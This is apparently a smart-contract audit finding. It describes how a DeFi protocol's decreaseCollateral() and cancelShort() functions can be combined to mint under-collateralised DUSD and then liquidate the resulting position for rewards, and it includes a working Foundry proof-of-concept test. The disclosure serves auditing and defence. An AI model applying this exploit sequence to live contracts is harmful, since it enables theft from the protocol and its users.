 ## [H] An attacker can mint free DUSD and liquidate the corresponding Short Record to earn liquidation rewards

### Summary

An attacker can use `decreaseCollateral()` function to reduce the collateral of a Short Recordn (SR) and `cancelOrder()` to cancel the corresponding Short Order having a collateral ratio < 1. The Short Record ends up having less collateral than debt and is now liquidatable.

### Description

A user can create a Short Order with a collateral ratio (CR) of less than 1. The protocol ensures that at least `minShortErc` in the Short Orders Short Record has enough collateral by filling the Short Record with collateral to cover `minShortErc` before the Short Order is matched or placed on the order book.

In addition, during the match the bid also provides equivalent collateral to the `ercDebt` it creates. So if the Short Order CR is 0.7 it ends up being 1.7 CR after matching.

By utilising the `cancelShort()` and `decreaseCollateral()` functions on a short Order with CR < 1, an attacker can create free DUSD and make the Short Record liquidatable.

The [cancelShort()](relative_path_091409:contracts/libraries/LibOrders.sol#L923-L995) function lets the caller cancel a Short Order. If the `ercDebt` is smaller than `minShortErc` as shown in line 953 below, it mints the difference to the shorter (i.e the address that created the Short Order) in line 982. The amount of collateral needed is calculated in line 960 and uses `cr`. `cr` is the collateral ratio and if it is less than 1 then the protocol would be minting DUSD with lesser collateral. But since it has already ensured that `minShortErc` has enough collateral in the Short Record before the Short Order was created, this shouldn't be a problem.

**[LibOrders.sol#L946-L976](relative_path_091409:contracts/libraries/LibOrders.sol#L946-L976)**

```solidity
953:             if (shortRecord.ercDebt < minShortErc) {
954:                 // @dev prevents leaving behind a partially filled SR under minShortErc
955:                 // @dev if the corresponding short is cancelled, then the partially filled SR's debt will == minShortErc
956:                 uint88 debtDiff = uint88(minShortErc - shortRecord.ercDebt); // @dev(safe-cast)
957:                 {
958:                     STypes.Vault storage Vault = s.vault[vault];
959:                     // @audit-issue the collateral could be bad if price moved.
960:                     uint88 collateralDiff = shortOrder.price.mulU88(debtDiff).mulU88(cr);
961: 
962:                     LibShortRecord.fillShortRecord(
963:                         asset,
964:                         shorter,
965:                         shortRecordId,
966:                         SR.FullyFilled,
967:                         collateralDiff,
968:                         debtDiff,
969:                         Asset.ercDebtRate,
970:                         Vault.dethYieldRate,
971:                         0
972:                     );
973: 
974:                     Vault.dethCollateral += collateralDiff;
975:                     Asset.dethCollateral += collateralDiff;
976:                     Asset.ercDebt += debtDiff;
977: 
978:                     // @dev update the eth refund amount
979:                     eth -= collateralDiff;
980:                 }
981:                 // @dev virtually mint the increased debt
982:                 s.assetUser[asset][shorter].ercEscrowed += debtDiff;
983:             } else {

```

The [decreaseCollateral()](ShortRecordFacet.sol#L83-L107) function lets the caller reduce the collateral he has in the Short Record.

An attacker can use `decreaseCollateral()` to reduce the collateral of the Short Record before cancelling. Thus, removing the collateral added for `minShortErc` and the protocol ends up minting DUSD with less Ethereum collateral.

The attacker earns the DUSD minted while providing less collateral value. The Short Record will become liquidatable and the attacker can further liquidate it to earn liquidation rewards.

### Impact

The protocol mints DUSD for free and pays liquidation rewards when the bad debt position is liquidated.

### Proof of Concept

To execute the POC the Short Record has to have debt so that `decreaseCollateral()` and `cancelShort()` can be called on it successfully. To do this, the POC creates two Short Orders, a normal Short Order and the other with CR < 1. It then uses a bid order to fill the normal Short Order and a tiny amount of the order with CR < 1.

The test can be run in the `Shorts.t.sol` file.

```solidity
    // Add the import below
    // import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";

    function test_StealDUSD() public {
        // set default Collateral Ratios
        vm.startPrank(owner);
        diamond.setInitialCR(asset, 170);
        diamond.setLiquidationCR(asset, 150);
        vm.stopPrank();

        initialCR = 170;
        uint80 price = DEFAULT_PRICE;
        uint88 amount = DEFAULT_AMOUNT;
        uint88 minShortErc = 2000 ether;

        // add a normal short order to fill the bid
        fundLimitShortOpt(price, amount, sender);
        // sender has 0 ethEscrowed
        assertEq(diamond.getVaultUserStruct(vault, sender).ethEscrowed, 0);
        depositEth(sender, price.mulU88(minShortErc).mulU88(1.7e18));
        uint initialEth = diamond.getVaultUserStruct(vault, sender).ethEscrowed;
        
        // creates a Short Order with CR = 0.7
        uint16[] memory shortHintArray = setShortHintArray();
        MTypes.OrderHint[] memory orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
        vm.prank(sender);
        diamond.createLimitShort(asset, price, minShortErc, orderHintArray, shortHintArray, 70);        

        // creates a Bid which completely fills the first Short Order and only fills 
        // 100000 wei in the second WEI
        fundLimitBidOpt(price, amount +  100000, receiver);

        assertEq(diamond.getAssetUserStruct(asset, sender).ercEscrowed, 0);
        vm.startPrank(sender);
        // decreases collateral by 499999999999999958, the collateral added to cover minShortErc is
        // 500000000000000000, but we can't remove everything because the protocol requires us to cover
        // the tiny debt we created
        decreaseCollateral(3, 499999999999999958); 
        cancelShort(101);
        
        uint finalEth = diamond.getVaultUserStruct(vault, sender).ethEscrowed;
        uint ercEscrowed = diamond.getAssetUserStruct(asset, sender).ercEscrowed;
        // profit ~= 0.15 ether ( price.mulU88(ercEscrowed) - initialEth-finalEth )
        assertGt(price.mulU88(ercEscrowed), initialEth-finalEth); 
        // the attacker can also decide to liquidate the position and earn more rewards
        assertLt(diamond.getCollateralRatio(asset, getShortRecord(sender, 3)), 150e18);
    }
```



 
